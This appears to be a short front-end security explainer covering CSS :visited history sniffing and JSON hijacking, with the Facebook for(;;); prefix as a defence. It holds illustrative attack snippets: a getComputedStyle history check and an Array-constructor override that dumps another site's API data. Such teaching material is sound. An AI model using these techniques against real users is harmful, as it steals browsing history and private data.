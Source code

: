 # Can you explain any common techniques or recent issues solved in regards to front-end security ?

## Hack a user's history through CSS :visited selectors
There was a hack to steal user's browsing history by using `getComputedStyle(anchor).color`

```js
if (getComputedStyle(link, '').color === 'rgb(0, 0, 128)') {
  // we know link.href has not been visited
}
else {
  // we know link.href has been visited
}
```

## JSON hijacking
Steal a user's API response by overriding JavaScript Array

```html
<script>
function Array() {
  var that = this;
  var index = 0;
  // Populating the array with setters, which dump the value when called
  var valueExtractor = function(value) {
    // Alert the value
    alert(value);
    // Set the next index to use this method as well
    that.__defineSetter__(index.toString(),valueExtractor );
    index++;
  };
  // Set the setter for item 0
  that.__defineSetter__(index.toString(),valueExtractor );
  index++;
}
</script>
<script src="some-users-api-that-outputs-array" /><!-- API URL outputs array data can be executed in attacker's website -->
```

That's why Facebook put a infinity loop before API response

```json
for(;;);[{"id": 1}, {"id": 2}]
```

### References
 - https://dbaron.org/mozilla/visited-privacy
 - https://portswigger.net/blog/json-hijacking-for-the-modern-web
 - https://dev.to/antogarand/why-facebooks-api-starts-with-a-for-loop-1eob

